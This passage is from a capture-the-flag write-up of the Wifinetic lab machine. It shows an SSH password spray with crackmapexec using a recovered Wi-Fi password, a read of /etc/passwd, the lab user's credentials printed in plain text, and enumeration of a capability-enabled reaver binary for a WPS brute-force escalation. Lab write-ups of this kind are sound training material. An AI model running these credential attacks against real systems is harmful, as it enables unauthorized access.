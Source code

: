 I got inside `wireless` two passwords for what seem to be two interfaces:

![](Pasted%20image%2020250204183054.png)

I can read `/etc/passwd` file:

![](Pasted%20image%2020250204183327.png)

There is a user called `netadmin`, which may have the previous password assigned.

As I don't initially know I can perform some ssh password bruteforcing with **crackmapexec**:

```shell
crackmapexec ssh wifinetic.htb -u users.txt -p 'VeRyUniUqWiFIPasswrd1!' --continue-on-success
```

![](Pasted%20image%2020250204184118.png)

> As previously said, we've got credentials :D `netadmin:VeRyUniUqWiFIPasswrd1!`

### User flag

![](Pasted%20image%2020250204184230.png)

## Privilege Escalation

If we search for binaries with capabilities:

```shell
getcap -r / 2>/dev/null

/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/reaver = cap_net_raw+ep
```

The last one is interesting:

>[!Info]
>*Reaver is a powerful tool for Linux that can be used to exploit vulnerabilities in the WiFi Protected Setup (WPS) protocol. It is designed to perform brute-force attacks on WPS PINs to recover WPA/WPA2 passphrases.*

I inspected the network interfaces:

```shell
ifconfig

[redacted]
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.247  netmask 255.255.254.0  broadcast 10.10.11.255

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0

mon0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        unspec 02-00-00-00-02-00-30-3A-00-00-00-00-00-00-00-00  txqueuelen 1000  (UNSPEC)

wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.1  netmask 255.255.255.0  broadcast 192.168.1.255

wlan1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.23  netmask 255.255.255.0  broadcast 192.168.1.255

wlan2: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
```